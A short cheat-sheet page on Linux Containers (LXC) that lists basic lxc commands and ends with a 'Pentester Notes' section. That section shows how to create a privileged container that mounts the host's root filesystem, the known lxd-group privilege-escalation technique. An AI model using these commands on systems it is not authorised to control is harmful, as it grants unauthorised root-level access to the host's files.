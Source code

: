 # Linux Containers (LXC)

<div class="row row-cols-lg-2"><div>

[Linux Containers](https://linuxcontainers.org/) (LXC) is a Linux only virtualization method to run multiple Linux systems using the host Linux kernel.

[Docker](../docker/index.md) is built over LXC. It provides additional features and a simplified interface. They share the notion of 'image' and 'container'.

LXC can only be used on Linux hosts. Users part of the `lxd` group can call any commands without sudo.
</div><div>

Random commands:

```shell!
$ lxd init
$ lxc launch ubuntu:22.04 container_name
$ lxc image import image.tar.gz --alias image_name
$ lxc init image_name container_name
$ lxc start container_name
$ lxc exec container_name /bin/bash
```
</div></div>

<hr class="sep-both">

## Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

Create a container mounting the underlying file system.

```
$ lxc init image_name container_name -c security.privileged=true
$ lxc config device add container_name device_name disk source=/ path=/mnt/root recursive=true
```
</div><div>
</div></div>